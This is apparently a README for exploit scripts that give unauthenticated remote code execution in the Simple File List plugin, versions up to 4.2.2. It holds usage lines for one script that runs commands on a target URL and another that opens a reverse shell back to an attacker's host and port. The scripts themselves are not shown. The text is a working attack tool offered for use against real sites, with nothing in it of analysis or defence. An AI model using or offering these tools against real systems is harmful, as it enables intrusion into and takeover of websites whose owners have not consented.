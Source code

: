 # Unauthenticated Remote Code Execution in Simple File List <= 4.2.2
### Two Scripts; One for basic RCE, the other for a reverse shell

#### Usage: sfl_rce.py
```bash
python3 sfl_rce.py <target_url>
Ex: python3 sfl_rce.py http://example.com
```

#### Usage: sfl_rev.py
```bash
python3 sfl_rev.py <target_url> <lhost> <lport>
Ex: python3 sfl_rev.py http://exaple.com 10.10.10.10 443
```
